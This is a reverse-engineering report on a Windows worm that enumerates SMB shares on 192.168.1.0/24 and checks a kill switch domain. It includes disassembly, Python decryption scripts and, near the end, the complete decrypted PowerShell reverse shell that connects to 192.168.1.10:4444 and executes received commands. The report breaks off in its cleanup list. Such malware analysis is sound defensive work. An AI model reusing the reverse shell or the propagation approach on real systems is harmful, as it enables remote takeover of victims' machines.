


# 1. Executive Summary

This report provides a technical analysis of a multi-stage Windows network worm designed to propagate laterally across local area networks. The malware's architecture is centered on the `OLE/COM` subsystem, leveraging functions exported by **ole32.dll** to orchestrate its later stages. Its primary objective is to achieve widespread infection within the `192.168.1.0/24` subnet by exploiting open Server Message Block (SMB) shares.

The malware's execution flow can be segmented into three distinct phases:

1. **Initialization and Environment Check:** Upon execution, the malware initializes the COM framework (CoInitialize) and instantiates a COM object (CoCreateInstance, OleRun). It immediately performs an environment check for the .NET Common Language Runtime by verifying that clr.dll is loaded. This dependency strongly indicates that the secondary payload is a .NET assembly.
2. **Cryptographic Operations and Kill Switch:** The malware dynamically generates a 32-byte cryptographic key using a routine optimized with **advanced CPU instruction sets (SIMD)**, providing a scalar fallback for older systems. This key, along with a hardcoded Base64 string `("KXgmYHMADxsV8uHiuPPB3w==")`, is passed as BSTR arguments to a method within the COM object. **The COM object is responsible for performing an XOR decryption**, which yields the kill switch domain. The resolvability of this domain dictates the malware's behavior. A successful DNS resolution acts as the kill switch, causing the program to terminate.
3. **Lateral Movement and Propagation:** If the kill switch domain does not resolve, the malware initiates its propagation routine. It scans the `192.168.1.0/24` subnet and enumerates SMB shares on discovered hosts using the NetShareEnum API. For each usable, non-administrative share, it invokes another COM method to perform a remote action—likely delivering or executing a secondary encrypted payload, using the dynamically generated key for decryption.

# **2. Static Analysis Overview**

Static analysis of the sample was conducted using **Binary Ninja** and supporting tools to identify its core characteristics without executing the code. The sample is a `64-bit console` application compiled with Microsoft Visual C++. The presence of a Program Database (PDB) file `(AetherDesk-v74-77.pdb)` alongside the executable provides unusual access to function names and debug information, greatly aiding the analysis.

### **2.1. File Identification**

The primary executable file, `AetherDesk-v74-77.exe`, was identified and fingerprinted as follows:



| **Attribute** | **Value** |
| --- | --- |
| **File Name** | AetherDesk-v74-77.exe |
| **File Size** | 29,184 bytes (28.50 KiB) |
| **MD5** | b45294f3ddcba68f09e7ef322188502e |
| **SHA-1** | d328956355e9797380370d8c9bec1f5f790136c0 |
| **SHA-256** | e0dc0b50df1ad62ef121a97cea07658f0f521e0860e68322ef51c7bc08f4d932 |
| **File Type** | PE64 (Windows 64-bit Executable) |
| **Architecture** | AMD64 |
| **Timestamp** | 2025-09-11 23:14:46 |



### **2.2. PE Header Analysis & Characteristics**

Analysis of the PE header reveals that the binary was compiled as a WINDOWS_CUI (Console User Interface) application. It has also been compiled with modern security mitigations enabled:

- **ASLR (DYNAMIC_BASE, HIGH_ENTROPY_VA):** The binary is compatible with Address Space Layout Randomization, which randomizes the base address of modules in memory at runtime to make exploitation more difficult.
- **DEP (NX_COMPAT):** The binary is compatible with Data Execution Prevention, which marks data pages (like the stack and heap) as non-executable.

### **2.3. Imported Libraries and Functions**

The malware's intended functionality is clearly outlined by its imported libraries. It relies heavily on standard Windows APIs for networking, COM/OLE interaction, and system queries.

| # | Name |
| --- | --- |
| 0 | KERNEL32.dll |
| 1 | ole32.dll |
| 2 | OLEAUT32.dll |
| 3 | MSVCP140.dll |
| 4 | NETAPI32.dll |
| 5 | WS2_32.dll |
| 6 | VCRUNTIME140_1.dll |
| 7 | VCRUNTIME140.dll |
| 8 | api-ms-win-crt-stdio-l1-1-0.dll |
| 9 | api-ms-win-crt-string-l1-1-0.dll |
| 10 | api-ms-win-crt-runtime-l1-1-0.dll |
| 11 | api-ms-win-crt-heap-l1-1-0.dll |
| 12 | api-ms-win-crt-math-l1-1-0.dll |
| 13 | api-ms-win-crt-locale-l1-1-0.dll |
- **ole32.dll & OLEAUT32.dll**: Imports from these libraries confirm the central role of the COM/OLE subsystem. Key functions include:
    - CoInitialize, CoCreateInstance, OleRun, CoUninitialize: Used to initialize and interact with the primary COM object.
    - SysAllocString: Allocates a BSTR (Binary String) used for passing Unicode strings to COM methods.
- **WS2_32.dll**: This library provides core networking capabilities, essential for the kill switch and propagation logic.
    - getaddrinfo, freeaddrinfo: Used exclusively for the DNS resolution of the kill switch domain.
- **NETAPI32.dll**: This library is used for network service management, specifically for the SMB scanning routine.
    - NetShareEnum: The core function used to enumerate network shares on remote hosts.
    - NetApiBufferFree: Used to free memory allocated by the NetShareEnum call.
- **KERNEL32.dll**: Provides access to fundamental system functions.
    - GetCurrentProcess, K32EnumProcessModules, K32GetModuleFileNameExW: Used in the IsClrLoaded function to check for the .NET runtime.

### **2.4. Embedded Strings and Artifacts**

Analysis of the binary's data sections in Binary Ninja revealed several significant hardcoded strings that directly map to the malware's functionality.

- **Base64-Encoded Payloads:**
    - "KXgmYHMADxsV8uHiuPPB3w==": The encrypted data that decodes to the kill switch domain.
    - "Zio8PjsLGFNHocbq4bDrydjco7PuhqWQ…": A longer Base64 string, presumed to be the secondary payload delivered during propagation.
- **Debug and Error Messages:**
    - "CLR not loaded. Exiting..."
    - "[Kill Switch Triggered] Exiting.…"
    - "[No Kill Switch Detected] Continuing…"
- **Network Artifacts:**
    - "192.168.1.": The hardcoded prefix for the network scanning loop.
    - "clr.dll": The target module name for the CLR check.
- **PDB File Path:** The presence of the PDB file (AetherDesk-v74-77.pdb) is a significant static finding. PDB files contain debug symbols that map functions and variables to their original source code names (e.g., ScanAndSpread, IsClrLoaded), which removes a significant layer of abstraction for the reverse engineer.

### **2.5. Memory Layout and Sections**

The binary's memory sections are standard for a Visual C++ compiled executable. The entropy analysis shows a high-entropy .text section, which is expected for compiled code, and lower entropy for the data sections, indicating the binary is not packed.

| **Section** | **Permissions** | **Address Range** | **Purpose** |
| --- | --- | --- | --- |
| **.text** | Read/Execute | 0x140001000 - 0x14000478e | Contains the main executable code. |
| **.rdata** | Read-Only | 0x140005000 - 0x140007a46 | Contains read-only data, including strings and import/export tables. |
| **.data** | Read/Write | 0x140008000 - 0x140008780 | Contains initialized, writable global variables. |
| **.pdata** | Read-Only | 0x140009000 - 0x1400093b4 | Contains exception handling information for 64-bit PE files. |
| **.rsrc** | Read-Only | 0x14000a000 - 0x14000a1e0 | Contains resources like icons, manifests, and version information. |
| **.reloc** | Read-Only | 0x14000b000 - 0x14000b060 | Contains base relocation data used by the loader for ASLR. |

# **3. Entry Point and Pre-Execution Analysis**

Before analyzing the malware's primary logic, a crucial step is to identify its true starting point and check for any code that executes before the main entry point. Malware often uses techniques like Thread Local Storage (TLS) callbacks to run anti-analysis or unpacking routines before an analyst can gain control of the process.

### **3.1. The Importance of TLS Callbacks**

Thread Local Storage (TLS) is a standard Windows mechanism that allows a program to define per-thread global data. The PE file format also supports an optional directory for TLS data, which can include one or more "TLS callbacks." These are pointers to functions that the Windows loader will execute automatically under specific conditions:

1. When the process starts (for the main thread).
2. When any new thread is created.
3. When any thread exits.

The critical point for malware analysis is that the callback for the main thread is executed **before the code at the program's official entry point is run**. This makes TLS callbacks an ideal location for malware to:

- **Perform Anti-Debugging/Anti-Analysis:** Detect if it is running inside a debugger or a virtual machine and alter its behavior or terminate.
- **Unpack or Decrypt Payloads:** Deobfuscate the main malicious code in memory before the analyst can set a breakpoint at the entry point.
- **Set Up Hooks:** Intercept system API calls early in the execution process.

Therefore, checking for the presence of a TLS directory and associated callbacks is a mandatory first step in any reverse-engineering effort.

### **3.2. Analysis of the Sample's Entry Point**

As observed in the PE header details from **Binary Ninja (Figure 1)**, the sample **does not contain a TLS data directory or a .tls section**.

This is a key finding, as it confirms that the malware does not employ TLS callbacks for pre-execution code. We can therefore proceed with the analysis by starting at the program's defined entry point, confident that no malicious code has run beforehand.

The PE header specifies the program's entry point at address 0x1400037d0. This address contains standard Visual C++ runtime startup code, which is responsible for initializing the process (e.g., setting up the stack, parsing command-line arguments) before transferring execution to the developer-written main function.

**Our analysis of the core logic will therefore begin at the main function, located at 0x140001c40.**

# **4. Technical Analysis**

This section provides a detailed walkthrough of the malware's execution flow, from its entry point to its final propagation actions. The analysis is based on the decompiled code from **Binary Ninja**, with function names restored from the provided PDB file.

## **4.1. C Runtime (CRT) Initialization**

As established in the pre-execution analysis, the program's official entry point is mainCRTStartup at `0x1400037d0`. This function is not written by the malware author but is standard boilerplate code provided by the Microsoft Visual C++ compiler.

Its primary responsibilities include:

1. Initializing the security cookie (__security_init_cookie) to protect against stack buffer overflows.
2. Calling __scrt_common_main_seh, which handles the bulk of the runtime setup.
3. Within __scrt_common_main_seh, the runtime initializes global variables, sets up thread-local storage if needed, retrieves command-line arguments and environment variables, and finally, calls the developer-written main function.

The key takeaway is that the execution flow proceeds through this standard, legitimate startup code before transferring control to the core malicious logic.

```c
; __scrt_common_main_seh @ 140003654
...
14000375b  e8e0e4ffff         call    main
...
```

Analysis of the malware's custom logic begins at the main function, located at **0x140001c40**.

## **4.2. Phase 1: Initialization and Environment Validation**

The malware's first actions are to set up its required subsystems and validate that the environment is suitable for its .NET-dependent payload.

1. **COM Initialization and Instantiation**: The main function begins at 0x140001c77 by calling CoInitialize. It immediately follows this by calling CoCreateInstance to instantiate its primary COM object, identified by CLSID `dabcd999-1234-4567-89ab-1234567890ff`. The object is then activated with a call to OleRun.

```c
; main @ 0x140001c40
...
140001c75  33c9               xor     ecx, ecx
140001c77  ff15eb360000       call    qword [rel CoInitialize]
...
; Set up arguments for CoCreateInstance
140001c87  4889442420         mov     qword [rsp+0x20 {var_258}], rax {var_228} ; ppv -> pointer to receive object
140001c8c  4c8d0dc53d0000     lea     r9, [rel _GUID_00000000_0000_0000_c000_000000000046] ; riid
140001c95  41b817000000       mov     r8d, 0x17       ; dwClsContext
140001c9b  488d0da63d0000     lea     rcx, [rel _GUID_dabcd999_1234_4567_89ab_1234567890ff] ; rclsid
140001ca2  ff15b0360000       call    qword [rel CoCreateInstance]

140001ca8  8bd8               mov     ebx, eax      ; Store HRESULT in ebx
140001caa  85c0               test    eax, eax
140001cac  783f               js      0x140001ced   ; Jump if CoCreateInstance failed

140001cae  488b4c2450         mov     rcx, qword [rsp+0x50 {var_228}] ; rcx = COM object pointer
140001cb3  ff15b7360000       call    qword [rel OleRun]
```

1. **Preliminary COM Interaction**: After the COM object is running, the malware performs its **first interaction with the component's code**. At `0x140001d23`, it calls a virtual function on the object at `offset + 0x68` in its vtable. This is a significant event, as it represents the first potential execution of managed (.NET) code. The method appears to return a status string, which is then immediately printed to the console via wprintf.

```c
; main @ 0x140001d1b
140001d1b  488b01             mov     rax, qword [rcx] ; rax = vtable of the COM object
140001d1e  488d542468         lea     rdx, [rsp+0x68 {var_210}] ; rdx -> output buffer for string
140001d23  ff5068             call    qword [rax+0x68] ; Call the method at vtable offset + 0x68

140001d26  488b542468         mov     rdx, qword [rsp+0x68 {var_210}] ; rdx = returned string
140001d2b  488d0dee3a0000     lea     rcx, [rel `string'::%s\n]
140001d32  e8e9f2ffff         call    wprintf          ; Print the returned string
```

1. **.NET CLR Check**: After the COM object is running, the malware makes a critical call to `IsClrLoaded` at `0x140001d37`. This determines if the environment can support the next-stage .NET payload. If the function's return value in al is zero (as checked by test al, al), the malware prints an error and terminates.

```c
; main @ 0x140001d37
140001d37  e814feffff         call    IsClrLoaded
140001d3c  84c0               test    al, al
140001d3e  7518               jne     0x140001d58   ; Jump if CLR is loaded (al != 0)

; --- CLR Not Found ---
140001d40  488d15e13a0000     lea     rdx, [rel `string'::CLR not loaded. Exiting...\n]
140001d47  488b0dfa330000     mov     rcx, qword [rel ?cerr@std@@...]
140001d4e  e85d0a0000         call    std::operator<<<...>>
140001d53  e9f5060000         jmp     0x14000244d   ; Jump to exit routine

; --- CLR Is Found ---
140001d58  488d15e93a0000     lea     rdx, [rel `string'::CLR is loaded...]
...
```

The IsClrLoaded function itself (at `0x140001b50`) is responsible for this check. It enumerates all modules loaded in the current process and compares their filenames against "clr.dll".

```c
; IsClrLoaded @ 0x140001b50
...
140001b8e  ff157c340000       call    qword [rel K32EnumProcessModules]
; ... loop setup ...
140001bc0  ff1542340000       call    qword [rel K32GetModuleFileNameExW]
; ... string manipulation to isolate filename ...
140001bf0  488d15193c0000     lea     rdx, [rel `string'::clr.dll]
140001bfa  ff1548370000       call    qword [rel _wcsicmp]
140001c00  85c0               test    eax, eax
140001c02  7430               je      0x140001c34   ; If match (eax=0), jump to return 1
; ... loop continues ...
140001c11  32c0               xor     al, al        ; No match found, return 0
...
140001c34  b001               mov     al, 0x1       ; Match found, return 1
...
```

## **4.3. Phase 2: Dynamic Key Generation**

After confirming the presence of the CLR, the malware proceeds to dynamically generate a 32-byte key. This key is central to its operation, used for both the kill switch decryption and the propagation payload. The malware employs two different routines for this task, selecting one based on the host CPU's capabilities, likely as a measure to complicate analysis and emulation.

The selection is made at `0x140001d6e` by checking the global variable `__isa_available`, which indicates the level of SIMD instruction set support.

```c
; main @ 0x140001d6e
140001d6e  833d2363000006     cmp     dword [rel __isa_available], 0x6
140001d75  0f8c85010000       jl      0x140001f00   ; If CPU support is low, jump to the simple scalar path
```

1. **SIMD Path (Advanced CPU):** If the CPU supports advanced instruction sets, the execution continues at `0x140001d7b`. This code path is a long, complex loop that heavily utilizes AVX/AVX-512 instructions (movdqa, paddq, vpmovzxbw, vpmullw, etc.) to perform parallel computations. This routine is computationally fast but difficult for a human to analyze, serving as a form of obfuscation.

```c
; SIMD Key Generation Loop Snippet
140001dc1  66480f6ec9         movq    xmm1, rcx
140001dc6  660f6cc9           punpcklqdq xmm1, xmm1
140001dca  660fd4cc           paddq   xmm1, xmm4
140001dce  660f3800cd         pshufb  xmm1, xmm5
...
140001de2  c5f5d5c8           vpmullw ymm1, ymm1, ymm0
...
140001eea  0f82d1feffff       jb      0x140001dc1 ; Loop until 32 bytes are generated
```

1. **Scalar Path (Fallback):** If the CPU support check fails, execution jumps to `0x140001f00`. This is a much simpler fallback routine that generates the key one byte at a time. It uses the linear formula `key[i] = (i * 7 + 0x42)`, which is trivial to reverse-engineer and was used to recover the kill switch domain.

```c
; Scalar Key Generation Loop @ 0x140001f00
140001f00  0fb6c2             movzx   eax, dl       ; eax = i (loop counter)
140001f03  6bc807             imul    ecx, eax, 0x7 ; ecx = i * 7
140001f06  80c142             add     cl, 0x42      ; cl = (i * 7) + 0x42
140001f09  888c1480000000     mov     byte [rsp+rdx+0x80 {var_1f8}], cl ; store key byte
140001f10  48ffc2             inc     rdx           ; i++
140001f13  4883fa20           cmp     rdx, 0x20     ; i < 32?
140001f17  72e7               jb      0x140001f00   ; Loop back if not done
```

Regardless of which path is taken, the result is a 32-byte key stored on the stack in the var_1f8 buffer.

1. **Base64 Encoding**: The raw 32-byte key is not used directly. Instead, it is passed through a custom Base64 encoding routine. At `0x140001f1e`, a buffer of size `0x2d` is allocated via malloc. Then, a loop starting at 0x140001f60 reads the key three bytes at a time, performs the necessary bitwise shifts, and uses the results as indices into a hardcoded Base64 character table ("ABCDEFGHIJKLMNOPQRSTUVWXYZabcdef...") to produce the final Base64-encoded key string.

```c
; Base64 Encoding Snippet
140001f19  b92d000000         mov     ecx, 0x2d
140001f1e  ff1524330000       call    qword [rel malloc] ; Allocate buffer for Base64 string
...
; Loop starting at 140001f60 reads 3 bytes from the key, calculates 4 Base64 characters
140001fb3  48c1e812           shr     rax, 0x12     ; >> 18 bits for 1st index
140001fb7  420fb60418         movzx   eax, byte [rax+r11] ; Look up char in b64_table
140001fbc  418800             mov     byte [r8], al       ; Store 1st Base64 char
...
140001ff9  0f8261ffffff       jb      0x140001f60   ; Loop until all key bytes are encoded
```

## **4.4. Phase 3: Kill Switch Decryption and Check**

This phase represents the core anti-analysis and command-and-control mechanism of the malware. Having generated a key, the malware now uses it to decrypt a hardcoded domain and checks if that domain is resolvable.

1. **COM Method Invocation for Decryption**: The malware prepares to call a second method on its COM object. It first converts two C-style strings into BSTR objects, which are required for COM interoperability:
    - The dynamically generated, Base64-encoded key from Phase 2.
    - The hardcoded Base64 string "KXgmYHMADxsV8uHiuPPB3w==".
    
    At 0x1400020f6, it invokes the virtual function at **offset +0x58** in the COM object's vtable. This function is responsible for performing the decryption.
    

```c
; main @ 0x140002073
; Prepare the generated key BSTR
140002073  498bcd             mov     rcx, r13      ; rcx = base64_key C-string
140002076  e835110000         call    _com_util::ConvertStringToBSTR
14000207b  488906             mov     qword [rsi], rax ; Store BSTR handle in a wrapper object

; Prepare the hardcoded data BSTR
1400020c0  488d0da9370000     lea     rcx, [rel `string'::KXgmYHMADxsV8uHiuPPB3w==]
1400020c7  e8e4100000         call    _com_util::ConvertStringToBSTR
1400020cc  498907             mov     qword [r15], rax ; Store BSTR handle in another wrapper

; Invoke the decryption method on the COM object
1400020e5  488b03             mov     rax, qword [rbx] ; rax = vtable pointer
1400020e8  4c8d4c2460         lea     r9, [rsp+0x60 {pNodeName_1}] ; r9 -> output pointer for result
1400020ed  4c8b06             mov     r8, qword [rsi] ; r8 = BSTR of generated key
1400020f0  498b17             mov     rdx, qword [r15] ; rdx = BSTR of hardcoded data
1400020f3  488bcb             mov     rcx, rbx      ; rcx = 'this' (COM object pointer)
1400020f6  ff5058             call    qword [rax+0x58] ; Call the decryption method
```

1. **Reverse-Engineering the Decryption**: While the decryption logic is contained within the COM object, the algorithm was successfully reverse-engineered by replicating the key generation logic and assuming a standard XOR cipher. The following Python script simulates this process.

```python
import base64

# 1. The hardcoded Base64 string from the binary at 0x1400020c0
b64_encoded = "KXgmYHMADxsV8uHiuPPB3w=="

# 2. Decode the string from Base64 to its raw byte representation
encoded_bytes = base64.b64decode(b64_encoded)

# 3. Replicate the malware's scalar key generation routine from 0x140001f00
key = bytearray((i * 7 + 0x42) & 0xFF for i in range(32))

# 4. Perform a simple XOR operation against the decoded bytes using the generated key
kill_switch_bytes = bytearray(encoded_bytes[i] ^ key[i] for i in range(len(encoded_bytes)))

# 5. Decode the final result from bytes to a UTF-8 string
kill_switch_domain = kill_switch_bytes.decode('utf-8')

print(f"Decrypted Kill Switch Domain: {kill_switch_domain}")
```

Executing this script reveals the decrypted kill switch domain: **k1v7-echosim.net**.

1. **DNS Resolution Check**: To determine if the kill switch is active, the malware performs a DNS lookup on the decrypted domain. First, it initializes the Windows Sockets library by calling WSAStartup at 0x1400021bd. Then, at 0x1400021fc, it calls getaddrinfo with the domain name.
    
    The return value of `getaddrinfo` dictates the execution path. A return value of 0 indicates the domain was successfully resolved, triggering the kill switch. Any non-zero value indicates a failure, meaning the malware should proceed.
    

```c
; main @ 0x1400021bd
1400021bd  ff155d300000       call    qword [rel WSAStartup]
1400021c3  85c0               test    eax, eax
1400021c5  7572               jne     0x140002239   ; Jump if WSAStartup failed

; Prepare arguments and call getaddrinfo
1400021f7  33d2               xor     edx, edx      ; pServiceName = nullptr
1400021f9  488bcb             mov     rcx, rbx      ; rcx = pNodeName ("k1v7-echosim.net")
1400021fc  ff1516300000       call    qword [rel getaddrinfo]
140002202  8bd8               mov     ebx, eax      ; Store result in ebx
...
140002214  ff15f62f0000       call    qword [rel WSACleanup]
14000221a  85db               test    ebx, ebx      ; Test if result is 0
14000221c  751b               jne     0x140002239   ; Jump if DNS lookup FAILED (no kill switch)

; --- Kill Switch Triggered (DNS lookup SUCCEEDED) ---
14000221e  488d153b370000     lea     rdx, [rel `string'::[Kill Switch Triggered]...]
...
140002234  e914020000         jmp     0x14000244d   ; Jump to exit routine

; --- No Kill Switch Detected (DNS lookup FAILED) ---
140002239  488d1548370000     lea     rdx, [rel `string'::[No Kill Switch Detected]...]
...
; Continue to propagation phase...
```

## **4.5. Phase 4: Network Propagation via ScanAndSpread**

If the DNS lookup for the kill switch domain fails, the malware proceeds to its final and most dangerous stage: spreading itself across the local network.

1. **Network Scanning Loop**: At `0x140002270`, a loop begins that iterates through integers from 1 to 254 (0xfe). Inside the loop, it dynamically constructs an IP address string in the format "192.168.1.{i}". It then calls the ScanAndSpread function at `0x1400023e4`.

```c
; main @ 0x140002270
; --- Start of Propagation Loop ---
140002270  418bd6             mov     edx, r14d     ; r14d is the loop counter (1-254)
; ... complex code to convert integer in r14d to a string ...
; ... complex code to concatenate "192.168.1." and the new string ...

; Call the spreading function
1400023d9  498bd5             mov     rdx, r13      ; rdx = generated Base64 key
1400023dc  488d8c2480000000   lea     rcx, [rsp+0x80 {var_1f8}] ; rcx -> target IP string
1400023e4  e827efffff         call    ScanAndSpread

; Loop control
140002429  41ffc6             inc     r14d          ; i++
14000242c  4181fefe000000     cmp     r14d, 0xfe    ; i <= 254?
140002433  0f8e37feffff       jle     0x140002270   ; Loop back
```

1. **ScanAndSpread Functionality**: This function, located at `0x140001310`, is the core of the worm's lateral movement capability. It takes the target IP address and the Base64-encoded key as arguments.
- **Share Enumeration:** At `0x1400014d0`, it calls `NetShareEnum` to list all available SMB shares on the remote host. It requests level 1 information, which includes the share name and type.

```c
; ScanAndSpread @ 0x1400014c1
1400014c1  41b9ffffffff       mov     r9d, 0xffffffff ; prefmaxlen = -1 (no limit)
1400014c7  4c8d45af           lea     r8, [rbp-0x51 {bufptr}] ; r8 -> pointer to receive share data
1400014cb  ba01000000         mov     edx, 0x1        ; level = 1
; rcx holds the target server name (the IP address)
1400014d0  ff15923c0000       call    qword [rel NetShareEnum]
1400014d6  85c0               test    eax, eax
1400014d8  0f857d050000       jne     0x140001a5b   ; Jump to cleanup if call fails
```

- **Filtering Administrative Shares:** The malware then enters a loop to iterate through the returned share information. For each share, it checks if the name contains a $ character at `0x1400016c0` by comparing each character to 0x24. This is a simple but effective filter to ignore default administrative shares (like C$, ADMIN$, IPC$) and target user-created shares, which are more likely to have weak permissions.

```c
; ScanAndSpread @ 0x1400016be
; Start of loop to check each share name
1400016be  6690               nop     
1400016c0  66833824           cmp     word [rax], 0x24 ; Compare character with '$'
1400016c4  0f84e4000000       je      0x1400017ae   ; If '$' is found, skip this share
1400016ca  4883c002           add     rax, 0x2      ; Move to next character
...
1400016d2  75ec               jne     0x1400016c0   ; Loop through all characters
```

- **Payload Delivery via COM:** For any "open" share that passes the filter, the malware again uses the COM subsystem to deliver its payload. At `0x14000197a`, it invokes another method on a COM object at **offset +0x60** in its vtable. This method is passed the full UNC path of the share, the generated key, and a second, much larger hardcoded Base64 payload ("Zio8PjsLGFNHocbq4bDrydjco7PuhqWQ…"). This second payload is presumably the next-stage dropper or the malware itself.

```c
; ScanAndSpread @ 0x14000196a
; After identifying a suitable share:
14000196a  488b03             mov     rax, qword [rbx] ; rax = COM object vtable
14000196d  4c8b0f             mov     r9, qword [rdi] ; r9 = BSTR of Base64 key
140001970  4c8b06             mov     r8, qword [rsi] ; r8 = BSTR of "Zio8Pjs..." payload
140001973  488b559f           mov     rdx, qword [rbp-0x61] ; rdx = BSTR of the UNC path
140001977  488bcb             mov     rcx, rbx      ; rcx = 'this' (COM object pointer)
14000197a  ff5060             call    qword [rax+0x60] ; Call the propagation method
```

This final call completes the infection cycle, delivering the payload to a new host on the network.

## **Decrypting the Propagation Payload**

The following Python script replicates the process: it generates the 32-byte key, decodes the large Base64 string, and performs a repeating XOR decryption.

```python
import base64

def decrypt_payload(b64_encoded_payload):
    """
    Decrypts the malware's payload using the discovered key generation
    and XOR decryption algorithm.
    """
    
    # 1. Replicate the malware's scalar key generation routine
    key = bytearray((i * 7 + 0x42) & 0xFF for i in range(32))
    
    # 2. Decode the Base64 payload
    try:
        encrypted_bytes = base64.b64decode(b64_encoded_payload)
    except base64.binascii.Error as e:
        return f"Base64 Decode Error: {e}"
        
    # 3. Perform a repeating XOR operation
    decrypted_bytes = bytearray(
        encrypted_bytes[i] ^ key[i % len(key)] for i in range(len(encrypted_bytes))
    )
    
    # 4. Decode the result to a string for analysis
    try:
        return decrypted_bytes.decode('utf-8', errors='ignore')
    except UnicodeDecodeError as e:
        return f"UTF-8 Decode Error: {e}\nRaw bytes: {decrypted_bytes}"

# The large Base64 string passed to the COM object in ScanAndSpread
b64_payload = "Zio8PjsLGFNHocbq4bDrydjco7PuhqWQnpSV0UhoYDURJjM8OxEfXS7C2Mz69MHFxpHn9v777M3a38nMISEsK2tydCQqFwkSF6G1r7L+yMLX17TpibCosJ6DnZ5rJT0gGSspIzs+MS5e4/H78+6ElpKJ7un44OnQ343dhDZwL2wqIDwydk1IGlq8qKvl6dbO09Tulau0uMvOk4GLY344O3JlcHM8HBgWCa/E6vj60MObkODqoLD808OKw9tibGB6YnRwfxAAG1414+Lq9emEhubAsKKAtLGGyqKBjHJoeTUWLCgjcCQ/MDPIzeH18sDC3N7p6YmwqLCeg5GRYSUweTs9NSRyVUBTXuihtLLuwcXW26GkpfXhw8KYnYcmLzo7OWl0Mz8RDVMHobqvqL2CmpCZvOeBoKjOuYWKlmhqNDJ5aXQkOwsIERvi4722oISPwdyuo6y0v4jK2tjYVl40PGJicH8uEghaVNHp+/69j4uVh+Dg9fGvhoSVmoZyaDQmYmELIzsdGF0f7+vg8vTKzO+D+oadlpWqw9+/mnJPbW8nOnhzLQACFxjg6+SktJ+Pwc2yoq+48rSYmIyaLilnfiwtMi4qAEBDVqX76vj5xtLG3O6Lq7u7l4LYw9t1eWZ+IyR+ETIQHxtSqPW0sv7IwtfXtOmNubOQj9nRxA=="

decrypted_script = decrypt_payload(b64_payload)
print(decrypted_script)
```

### **Analysis of the Decrypted Payload**

Executing the script reveals that the payload is a **PowerShell script**. This confirms our hypothesis that the malware is a dropper for a second-stage script-based payload.

```powershell
$socket = New-Object System.Net.Sockets.TcpClient('192.168.1.10', 4444);
if ($socket -eq $null) { exit 1 }

$stream = $socket.GetStream();
$writer = New-Object System.IO.StreamWriter($stream);
$writer.WriteLine('PS ' + (Get-Location).Path + '> ');
$writer.Flush();

$buffer = New-Object Byte[] 1024;
while (($bytesRead = $stream.Read($buffer, 0, $buffer.Length)) -gt 0) {
    $command = ([System.Text.Encoding]::UTF8).GetString($buffer, 0, $bytesRead).Trim();
    if ($command -eq 'exit') { break }
    
    try {
        $output = Invoke-Expression $command 2>&1 | Out-String;
    } catch {
        $output = $_.Exception.Message | Out-String;
    }
    
    $writer.WriteLine($output);
    $writer.WriteLine('PS ' + (Get-Location).Path + '> ');
    $writer.Flush();
}

$writer.Close();
$stream.Close();
$socket.Close();
```

**Payload Functionality Breakdown**

This payload is a classic **reverse shell**. It's designed to connect back to a command-and-control (C2) server and give the attacker remote control over the compromised machine.

1. **Establish C2 Connection**:
    - $socket = New-Object System.Net.Sockets.TcpClient('192.168.1.10', 4444);
    - The script's first action is to attempt a TCP connection to the IP address **192.168.1.10** on port **4444**. This hardcoded IP is the attacker's listening post or C2 server within the local network. If the connection fails, the script exits.
2. **Create Communication Streams**:
    - $stream = $socket.GetStream();
    - It gets the network stream from the established socket, which allows it to send and receive data. It also creates a StreamWriter for easily sending text back to the attacker.
3. **Send Initial Prompt**:
    - $writer.WriteLine('PS ' + (Get-Location).Path + '> ');
    - The script immediately sends a PowerShell prompt (e.g., PS C:\Users\Victim>) to the C2 server. This signals to the attacker that the connection is successful and the shell is ready to receive commands.
4. **Command Execution Loop**:
    - while (($bytesRead = $stream.Read($buffer, 0, $buffer.Length)) -gt 0)
    - The script enters an infinite loop, waiting to receive data from the attacker.
    - When it receives data, it decodes it as a UTF-8 string and executes it using Invoke-Expression. Invoke-Expression is a powerful but dangerous cmdlet that executes any string as a PowerShell command.
    - The 2>&1 redirects any errors from the command into the standard output stream, ensuring the attacker sees error messages.
5. **Send Output Back to Attacker**:
    - $output = ... | Out-String;
    - The complete output of the executed command (both results and errors) is captured as a single string.
    - $writer.WriteLine($output);
    - This output string is sent back over the network to the attacker. The script then sends a new prompt, waiting for the next command.
6. **Cleanup**:
